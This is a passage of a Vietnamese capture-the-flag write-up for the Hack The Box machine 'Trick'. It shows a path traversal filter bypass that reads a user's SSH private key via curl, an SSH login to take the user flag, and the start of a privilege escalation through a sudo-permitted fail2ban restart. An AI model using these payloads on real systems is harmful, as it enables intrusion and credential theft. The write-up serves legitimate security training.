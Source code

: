 Mặc dù anh lập trình viên có cố gắng replace `../` thành ` ` thì ta vẫn hoàn toàn có thể bypass được. 

> **Nhận xét ngoài lề:** Cách chống path traversal này chỉ hoạt động khi thực hiện recursive hoặc các chuỗi có độ dài là 1.

**Payload:** 

```console
curl http://preprod-marketing.trick.htb/index.php?page=....//....//..../{file}
```

Với các thông tin từ trước, ta phát hiện có user tên `michael` và `port 22` đang mở → **Sinh ra 1 giả thuyết:** rằng ở thư mục home của `michael` có chứa foldr `.ssh` và trong đó có chứa key ssh.

```console
kali@kali:~$ curl http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
<-SNIP→
fvJDZa67XNHzrxi+IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

→ Ngon, giả thuyết hoàn toàn đúng. Thực hiện kết nối tới server bằng ssh rồi lấy flag thôi. 

## `👨‍🚀` User Own

```console
kali@kali:~/machines.HTB/Trick/exploit$ ssh michael@10.10.11.166 -i id_rsa
michael@trick:~$ cat user.txt 
################################
```

# `PRIVILEDGE ESCALATION`
Để thực hiện leo thang đặc quyền, ta cần phải thực hiện các bước enum thông thường bằng tay trước: [S1REN's way](https://sirensecurity.io/blog/linux-privilege-escalation-resources/)

Sau khi kiểm tra với `ps -aux`, ta thấy `fail2ban` service đang chạy. Và với lệnh `sudo -l`, ta phát hiện thêm user `michael` hoàn toàn có thể chạy lệnh restart `fail2ban` dưới quyền roo mà không cần password

```console
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

`fail2ban` sẽ xác định các `service` bằng các config nằm trong file `jail.conf` ở thư mục `/etc/fail2ban` và các hành động cấm như thế nào sẽ do các files cấu hình trong thư mực `/etc/fail2ban/action.d`. Chi tiết cách exploit [here](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7).
